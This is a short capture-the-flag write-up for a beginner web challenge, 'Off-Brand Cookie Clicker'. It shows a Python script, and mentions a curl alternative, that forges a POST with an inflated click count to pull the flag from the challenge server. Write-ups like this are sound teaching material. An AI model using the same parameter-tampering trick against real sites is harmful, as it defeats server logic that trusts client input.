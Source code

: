 # Beginner: Off-Brand Cookie Clicker 
The challenge had a website provided to us with a cookie clicker in which increments the counter everytime we click.

Upon closer examination & inspection of the html code for the webpage, we could see some embedded javascript in the html code, hinting at a possible vulnerability we could exploit there.

![imagecook](https://github.com/didumfernando/CTF-writeups/assets/118650079/ad5b804d-f177-46c9-bc89-dddc1b904c03)

As such we could manually send a request with the data as 10000000 since that will be the condition to return us the flag successfully.
```
# python library to handle requests
import requests

# data being sent over 
data = {'count': 10000000}

# POST request
req = requests.post('http://betta.utctf.live:8138/click', data=data)

# check for request's success
if req.status_code == 200:
'''getting the flag'''
    flag = req.json()['flag']
    print("Flag received: %s" % flag)
```
## Alternative solution
An alternative solution we managed to find out was by using our CMD directly to send a post request to the url provided by using 'curl' which is the command-line too to send data using various protocols but in this case we use it to make a HTTP request. Thus when we run this command on our CMD, it will send a POST request to betta.utctf.live:8138/click with form data containing a field "count" with the value "10000000".

![success](https://github.com/didumfernando/CTF-writeups/assets/118650079/a1558718-0919-4b38-8fe2-a70ad57b7060)
